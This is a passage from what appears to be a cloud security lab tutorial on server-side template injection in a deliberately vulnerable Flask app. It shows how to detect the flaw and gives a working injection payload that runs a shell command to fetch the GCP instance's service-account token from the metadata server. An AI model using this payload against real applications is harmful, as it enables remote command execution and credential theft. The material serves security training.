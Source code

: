 The application is really simple, so you will notice right-away that the **Name** user input field is being replicated in the URL and the HTML code of the redirection page. Since the user input appears in the URL, you would like to try what happen if you change the value to something else.

![](/src/images/scc-secops-lab/69-misc-testing_vuln_app_behavior2.png)

Notice that changing the value of the URI parameter **name** is "rendered" in the webpage. 

Now that we know how the application operates, we shuold start trying some hacking techniques. We already know that the vulnerability of this web app is SSTI. This is what OWASP says about how to detect this vulnerability:

> [...] Construct common template expressions used by various template engines as payloads and monitor server responses to identify which template expression was executed by the server.

For Flask, template expressions are defined by enclosing python code in between two nested brackets, like `{{ 7 * 7 }}`. Try replacing this in the URL.

![](/src/images/scc-secops-lab/70-misc-testing_vuln_app_behavior3_vuln_detected_ssti.png)

We found our vulnerability. The rest is just knowing a little bit of Python and the GCP API. Try replacing the following injection code in the URL.

```python
config.__class__.__init__.__globals__['os'].popen("curl -H 'Metadata-Flavor: Google' 'http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token'").read()
```

![](/src/images/scc-secops-lab/71-misc-vuln_app_ssti_get_token.png)


[Finding Class: Misconfigurations, Vulnerability; Resource Type: Google Cloud storage bucket; Severity: High]: #